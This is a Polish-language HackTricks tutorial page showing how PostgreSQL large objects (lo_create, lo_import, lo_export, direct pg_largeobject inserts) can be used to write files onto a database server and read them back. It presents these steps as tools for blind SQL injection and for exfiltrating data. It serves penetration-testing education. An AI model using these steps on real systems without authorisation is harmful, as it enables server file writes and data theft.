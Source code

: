 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Large Objects

PostgreSQL oferuje strukturę znaną jako **large objects**, dostępną za pośrednictwem tabeli `pg_largeobject`, zaprojektowaną do przechowywania dużych typów danych, takich jak obrazy czy dokumenty PDF. To podejście jest korzystniejsze niż funkcja `COPY TO`, ponieważ umożliwia **eksport danych z powrotem do systemu plików**, zapewniając dokładną replikę oryginalnego pliku.

Aby **przechować pełny plik** w tej tabeli, należy utworzyć obiekt w tabeli `pg_largeobject` (identyfikowany przez LOID), a następnie wprowadzić fragmenty danych, każdy o rozmiarze 2KB, do tego obiektu. Ważne jest, aby te fragmenty miały dokładnie 2KB (z możliwym wyjątkiem ostatniego fragmentu), aby zapewnić prawidłowe działanie funkcji eksportu.

Aby **podzielić swoje dane binarne** na fragmenty 2KB, można wykonać następujące polecenia:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Aby zakodować każdy plik w Base64 lub Hex, można użyć poniższych poleceń:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Ważne**: Podczas automatyzacji tego procesu upewnij się, że wysyłasz kawałki o wielkości 2KB czystych bajtów. Pliki zakodowane w formacie hex będą wymagały 4KB danych na kawałek z powodu podwojenia rozmiaru, podczas gdy pliki zakodowane w Base64 stosują wzór `ceil(n / 3) * 4`.

Zawartość dużych obiektów można przeglądać w celach debugowania za pomocą:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

Aby przechować dane binarne, najpierw tworzony jest LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
W sytuacjach wymagających precyzyjnej kontroli, takich jak wykorzystanie Blind SQL Injection, `lo_create` jest preferowane do określenia stałego LOID.

Fragmenty danych można następnie wstawiać w następujący sposób:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Aby wyeksportować i potencjalnie usunąć duży obiekt po użyciu:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Używanie `lo_import` i Hex

Funkcja `lo_import` może być wykorzystana do stworzenia i określenia LOID dla dużego obiektu:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Po utworzeniu obiektu dane są wstawiane na stronę, zapewniając, że każdy kawałek nie przekracza 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Aby zakończyć proces, dane są eksportowane, a duży obiekt jest usuwany:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Ograniczenia

Zauważono, że **duże obiekty mogą mieć ACL** (Listy Kontroli Dostępu), co może ograniczać dostęp nawet do obiektów stworzonych przez twojego użytkownika. Jednak starsze obiekty z liberalnymi ACL mogą być nadal dostępne do eksfiltracji treści.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
